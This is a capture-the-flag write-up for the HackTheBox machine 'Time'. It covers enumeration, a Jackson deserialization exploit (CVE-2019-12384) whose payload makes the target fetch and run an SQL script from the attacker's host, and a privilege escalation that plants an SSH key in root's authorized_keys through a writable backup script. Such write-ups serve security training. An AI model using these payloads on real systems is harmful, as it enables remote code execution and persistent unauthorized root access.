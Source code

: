 <script src="https://www.hackthebox.eu/badge/36120"></script>

<h2>Time - HackTheBox - WriteUp</h2>


<h1>Steps</h1>

<hr>1° step: Nmap scan
<hr>2° step: Dirsearch (nothing interesting found)
<hr>3° step: Enumeration
<hr>3° step: Test a vector in the web application
<hr>4° step: Getting a shell
<hr>5° step: Privilege escalation


<h1>Nmap</h1>
![image](https://i.imgur.com/nNgEXkK.png "Nmap Scan")<br>
We found two ports: 22 and 80.


While I was enumerating the webserver, I left running dirsearch.
![image](https://imgur.com/iFMN0Fv.png "Dirsearch")<br>
Nothing interesting found.


In the webserver, there's a "JSON Beautifier and Validator"<br>
Testing "Beautify" option, nothing curious was found.
![image](https://imgur.com/oXxi1e0.png "Webserver")<br>

But, if we change to "Validate(Beta!)" option, we see something interesting.
![image](https://imgur.com/Ya1EBHq.png "Validate vector")<br>
An error, that's awesome! Beta features are always interesting, let's take a look for it.

That's the complete error:
![image](https://imgur.com/nGsqPqX.png "Complete error")<br>
I marked an interesting factor, let's research it.


After some research, I found and read some articles talking about "Jackson Deserialization" and a "RCE" in this library.<br>
I tried to send '{"FDivision"}' and the error changed:
![image](https://imgur.com/TMCdfOe.png "New error")<br>

Searching on google and reading a little, I checked a solution for this error.<br>
We need to use "[]" instead of "{}"<br>
Following this thought, I got this response:<br>
![image](https://imgur.com/yJ0VYq1.png "Could not resolve type id 'FDivision', no class found")<br>

Searching for it, I found an exploit. [Github exploit](https://github.com/jas502n/CVE-2019-12384)<br>

<h1>Let's start exploiting.</h1><br>

First, we need to create a "inject.sql", as was said [here](https://github.com/jas502n/CVE-2019-12384)<br>

Then, start your listeners.<br>
![image](https://imgur.com/sPCiXxN.png "NC listener")<br>
![image](https://imgur.com/amInJkc.png "Python listener")<br>

Now we can send the payload:
<p>"["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.197/inject.sql'"}]"</p><br>

And we got the user!
![image](https://imgur.com/sramzmY.png "user flag")<br>

<h1>Privilege Escalation</h1><br>

If we run any enumeration script, You'll see a script called "timer_backup.sh"<br>
I won't print the exit of this tools, because it's too big.<br>

Here we can see the permissions of this script.<br>
![image](https://imgur.com/5TO81Ht.png "Script perms")<br>
We can write into the file!<br>
Lets try to put our ssh key.<br>

' echo "echo KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh '<br>
(You need to change "KEY" to your ssh public key)<br>
![image](https://imgur.com/YIhS0bZ.png "command")<br>

Then we can login as root in SSH:<br>
![image](https://imgur.com/X0x4wke.png "rooted")<br>

<h1>Just to curious: It has a second way to root.</h1>

![image](https://imgur.com/SVYgD87.png "Second way to root")
